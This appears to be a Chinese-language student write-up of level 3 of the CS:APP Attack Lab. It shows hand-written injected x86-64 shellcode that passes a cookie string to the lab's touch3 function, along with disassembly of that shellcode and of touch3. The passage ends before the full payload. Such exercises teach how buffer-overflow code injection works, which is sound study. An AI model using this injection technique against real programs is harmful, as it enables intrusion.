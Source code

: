 ### 解答：

先将我们的 cookie 值进行转换，得到：

```
35 39 62 39 39 37 66 61
```

hexmatch 函数是将我们传入 touch3 的值与 cookie 值进行对比，所以这里如何将 cookie 对应的 *35 39 62 39 39 37 66 61* 传入进去成了关键。

首先先将 level2 的内容做一点小改动，将 touch2 的地址改为 touch3：

```
mov $0x59b997fa %rdi
pushq $0x4018fa /* 这里的 pushq 将 touch3 压入栈，栈指针会下移*/
retq  
```

例行转换：

```assembly
1lev3.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq   
```

接下来就是确定 touch3 调用的 hexmatch 究竟覆盖了多少，这里应该可以通过查看 touch3 以及 hexmatch 直接进行计算。

看一下 touch3 和 hexmatch 干了什么:

```assembly
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	callq  401c8d <validate>
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	callq  401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>
```
